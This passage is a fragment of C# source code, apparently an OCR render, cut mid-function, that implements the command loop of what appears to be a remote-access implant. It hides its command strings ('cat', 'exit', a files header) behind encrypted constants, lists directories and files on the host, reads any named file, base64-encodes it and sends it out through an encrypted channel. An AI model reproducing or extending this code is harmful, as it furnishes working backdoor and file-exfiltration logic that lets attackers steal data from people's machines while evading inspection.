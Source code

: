 ```cs
                sbDirsFiles.Append(Environment.NewLine);

                string currentDirectory = Directory.GetCurrentDirectory();

                // string strEncSeparatorDirs = ".";
                string strEncSymbolPoint = "0b";
                string strSymbolPoint = myEC.DecodeEncryptData(strEncSymbolPoint);

                string[] strArrayDirectories = Directory.GetDirectories(currentDirectory, strSymbolPoint);
                int intAmountDirectories = strArrayDirectories.Length;
                if (intAmountDirectories > 0)
                {
                    for (int iter = 0; iter < intAmountDirectories; iter++)
                    {
                        sbDirsFiles.Append(strArrayDirectories[iter]);
                        sbDirsFiles.Append(Environment.NewLine);
                    }
                }

                // string strEncSeparatorDirs = "=== files ===";
                string strEncHeaderFiles = "183b4edc970b73dd0e5eb609f4";
                string strHeaderFiles = myEC.DecodeEncryptData(strEncHeaderFiles);
                sbDirsFiles.Append(strHeaderFiles);
                sbDirsFiles.Append(Environment.NewLine);

                string[] strArrayFiles = Directory.GetFiles(currentDirectory, strSymbolPoint);
                int intAmountFiles = strArrayFiles.Length;
                if (intAmountFiles > 0)
                {
                    for (int iter = 0; iter < intAmountFiles; iter++)
                    {
                        sbDirsFiles.Append(strArrayFiles[iter]);
                        sbDirsFiles.Append(Environment.NewLine);
                    }
                }

                string strOut = sbDirsFiles.ToString();
                SendAndEncrypt(strOut);
            }

            // string strCat = "cat";
            string strEncCat = "466707";
            string strCat = myEC.DecodeEncryptData(strEncCat);
            if (!strArraySplit[0].Equals(strCat))
            {
                break;
            }
            if (intSizeArraySplit <= 1)
            {
                throw new BadImageFormatException();
            }

            byte[] byteArrayTemp = ReadFile(strArraySplit[1]);
            string strBaseData = Convert.ToBase64String(byteArrayTemp);
            SendAndEncrypt(strBaseData);
        }
        // string strExit = "exit";
        string strEncExit = "407e1a88";
        string strExit = myEC.DecodeEncryptData(strEncExit);
        if (strArraySplit[0].Equals(strExit))
        {
            return;
```